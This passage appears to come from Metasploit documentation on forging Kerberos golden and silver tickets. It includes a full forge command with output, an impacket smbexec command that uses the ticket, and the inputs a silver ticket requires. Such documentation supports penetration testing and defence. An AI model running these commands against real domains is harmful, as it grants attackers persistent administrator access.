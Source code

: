 With the above information a golden ticket can be forged:

```msf
msf6 auxiliary(admin/kerberos/forge_ticket) > run action=FORGE_GOLDEN domain=adf3.local domain_sid=S-1-5-21-1266190811-2419310613-1856291569 nthash=767400b2c71afa35a5dca216f2389cd9 user=Administrator

[+] MIT Credential Cache ticket saved on /Users/user/.msf4/loot/20220831223726_default_192.168.123.13_kerberos_ticket._550522.bin
[*] Auxiliary module execution completed
```

This newly created golden ticket is a ticket granting ticket which can be used to generate service tickets without a username or password. Common services include WinRM, SMB, etc.

Example using a golden ticket with Metasploit:

Not currently currently supported.

Example using a golden ticket with impacket:

```
export KRB5CCNAME=/Users/user/.msf4/loot/20220831223726_default_192.168.123.13_kerberos_ticket._550522.bin
python3 ~/impacket/examples/smbexec.py 'adf3.local/Administrator@dc3.adf3.local' -dc-ip 192.168.123.13 -k -no-pass
```

If this is not working for you, there is a section dedicated to common errors below.

### Forging Silver ticket

A silver ticket is similar to a golden ticket. The user will compromise the password hash for a service or computer account to forge tickets which grant persistent access to services such as SMB/LDAP/MSSQL/etc.

For silver ticket attacks the following information is required:

1. `DOMAIN` - The domain, i.e.`adf3.local`
2. `DOMAIN_SID` This is the Security Identifier for the system, i.e. `S-1-5-21-1266190811-2419310613-1856291569`
3. `NTHASH` - The NTHASH for the service or computer account, i.e. `767400b2c71afa35a5dca216f2389cd9`
4. `USER` - This username will be stored within the forged ticket, unlike with Golden tickets - this can be a non-existent user
5. `USER_RID` - The relative identifier(RID) for users will be stored within the forged ticket, i.e. Administrator accounts have a RID of `500`
6. `SPN` - The Service Principal name, i.e. `CIFS` for SMB access, or `MSSqlSvc/dc1.dw.local:1433`. Other examples can be seen by running `setspn -q */*` on the target

Example Service Principal Names:

| Service Type | Server Principal Name |
|--------------|-----------------------|
| WMI          | HOST or RPCSS         |
| WinRM        | HOST or HTTP          |
| SMB          | CIFS                  |
| LDAP         | LDAP                  |
| MSSQL        | MSSqlSvc              |

